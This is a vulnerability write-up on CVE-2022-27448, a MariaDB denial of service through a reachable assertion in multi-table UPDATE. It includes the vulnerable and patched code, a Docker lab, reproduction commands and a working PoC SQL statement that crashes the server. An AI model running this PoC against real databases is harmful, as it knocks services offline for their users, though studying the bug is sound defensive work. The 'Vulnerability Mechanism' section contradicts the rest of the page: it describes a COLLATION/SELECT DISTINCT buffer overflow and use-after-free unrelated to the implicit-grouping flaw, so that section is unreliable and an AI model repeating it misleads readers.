



# CVE-2022-27448 CWE-617 MariaDB DoS via Reachable Assertion

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **PTION_SAFE_UPDATES:** Secure update mode, usually enabled via `SET SQL_SAFE_UPDATES=1` in MySQL and MariaDB clients.

Once enabled, SQL UPDATE and DELETE operations must include a WHERE clause or use index conditions; otherwise, they will be rejected to prevent accidental changes to the entire table.
- **unlikely(...) :** The compiler prompts macros, meaning that "expressions in parentheses are rarely true." This can optimize CPU branch prediction and improve execution efficiency in common scenarios.
- **CWE-617 Reachable Assertion:** Accessible Assertion. Assertive statements in a program (used to verify whether a certain assumption or condition during program execution) can be triggered during normal execution, which may indicate design flaws or errors in the program's logic. When the program reaches the assertion point, if the assertion conditions are not met, the program will terminate execution and output an error message. Normally, assertions are used during development and debugging to catch logical errors in the program and are not expected to be triggered during normal operation. However, if an attacker can trigger a program execution process to reach this assertion through specific input or operation and cause the assertion to fail, it triggers the CWE-617 vulnerability, which may lead to program crash or denial of service.

## Vulnerability Mechanism
 There is an overly aggressive optimization logic in MariaDB's query optimizer. When handling special expressions like `COLLATION(AVG('x'))`, which are both constants and have aggregator flags, the constant replacement is mistakenly performed without checking the aggregator flag, resulting in inconsistent internal state within the optimizer. When this inconsistency is combined with `SELECT DISTINCT` queries, it can induce the optimizer to incorrectly calculate memory allocation, causing buffer overflow; This overflow then corrupts key data of adjacent objects (such as virtual function table pointers), and ultimately causes the server to crash in a typical "use-after-free" phenomenon when the program tries to use the corrupted object.

## Vulnerability Location
Analysis of MariaDB 10.6.3 source code:

In the sql\sql_update.cc file, line 2284 `multi_update` is an execution class used to handle **multi-table updates**. Its `initialize_tables` method is mainly responsible for checking and initializing the input JOIN object, binding the main update table, Initialize and update the target table array and perform some security checks (such as safe update).

The statement at line 2289 is used to prevent dangerous full-table update operations under specific configurations. If the current session has enabled "Secure Update" mode and the SQL has full table JOIN (i.e., no WHERE filtering or index optimization), then the update will be directly rejected, returning an error, and then bind the master table to continue the operation.

However, before binding the main table, **there is a lack of aggregation validity check**. When executing illegal SQL (such as UPDATE ... ORDER BY aggregation), `join->implicit_grouping` will be set to true, indicating that the user has used illegal aggregation methods. However `initialize_tables` the function **does not check** this variable `join->implicit_grouping` this variable, MariaDB will mistakenly believe it is a valid JOIN and will not terminate the process, causing the exception state to continue flowing to the underlying execution stage. When executing subsequent `multi_update`-related operations, many codes relying on "non-grouping" scenarios run in abnormal states, eventually leading to assertion failures or even crashes.

```cpp
// SQL \sql _update.cc file, 2284 lines
bool multi_update::initialize_tables(JOIN *join)
{
  TABLE_LIST *table_ref;
  DBUG_ENTER("initialize_tables");

   // 2289 rows Security update mode check to prevent full-table updates
  if (unlikely((thd->variables.option_bits & OPTION_SAFE_UPDATES) &&
               error_if_full_join(join)))
      // Debug macros are used to "return early" and output corresponding trace logs in debug mode
    DBUG_RETURN(1);
    
    // Bind the main table
  main_table=join->join_tab->table;
  table_to_update= 0;
    
    // Subsequent operations ...
}
```

## Remediation
Added `if (join->implicit_grouping)` judgment: Once illegal aggregation usage is detected (`implicit_grouping` is true), an error `ER_INVALID_GROUP_FUNC_USE` is immediately reported and subsequent processes terminated. This effectively avoids issues such as program crashes and assertion failures caused by abnormal structure states.

```cpp
if (unlikely((thd->variables.option_bits & OPTION_SAFE_UPDATES) && error_if_full_join(join)))
  DBUG_RETURN(1);
/***************** Key Fixes *******************/
if (join->implicit_grouping)
{
  my_error(ER_INVALID_GROUP_FUNC_USE, MYF(0));
  DBUG_RETURN(1);
}
/********************************************/
main_table = join->join_tab->table;
table_to_update = 0;
```

## Affected Versions
**Affected version:** MariaDB:

- 10.4.0 to 10.4.35
- 10.5.0 to 10.5.16
- 10.6.0 to 10.6.8
- 10.7.0 to 10.7.4
- 10.8.0 to 10.8.3
- 10.9.0 to 10.9.1

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator is root user, password is 12345, there is a database test_db, open port 3306, and the container contains a PoC file CVE-2022-27448-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-27448-PoC.sql, and you will see that an error has been encountered and the container automatically closes

```sql
source CVE-2022-27448-PoC.sql
```



4. Check the MariaDB container crash log; you can see `[ERROR] mysqld got signal 6 ;`, corresponding to `SIGABRT`, which is a critical error triggered by failed assertion or explicit abort.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 (a int);
INSERT INTO t1 VALUES (1),(2);
 
CREATE TABLE t2 (b int);
INSERT INTO t2 VALUES (1),(2);
 
UPDATE t1 
	-- Natural join: Find columns with the same name in two tables, then join them based on the condition that these columns have equal values
	NATURAL JOIN t2 
		-- Update the value of column a in the join result to 1
		SET a = 1 
			-- Sort by the average value of column a, then perform an update operation, which is an illegal SQL operation
			ORDER BY AVG (a) ;
```

This SQL **illegally** uses the aggregation function `AVG(a)` in the `ORDER BY` clause of `UPDATE` statement. According to SQL standards, `ORDER BY` can appear in `SELECT`, but `UPDATE ... ORDER BY` are not allowed to include aggregation functions. When MariaDB handles such statements, if it is not properly validated, the internal `JOIN` object (join structure) will be flagged `implicit_grouping` (indicating illegal aggregation usage), and subsequent processes will continue to pass downward without properly handling this state, which may ultimately lead to assertion failure or undefined behavior (such as memory out-of-bounds or crashes).

## References
[NVD - CVE-2022-27448](https://nvd.nist.gov/vuln/detail/CVE-2022-27448)

[[MDEV-28095\] crash in multi-update and implicit grouping - Jira](https://jira.mariadb.org/browse/MDEV-28095)

[MDEV-28095 crash in multi-update and implicit grouping · MariaDB/server@ecb6f9c](https://github.com/MariaDB/server/commit/ecb6f9c894d3ebafeff1c6eb3b65cd248062296f#diff-cf20022ab945b9829eab49dd73922db8b8283ffccefcb6c32f18f85282fd0d71)
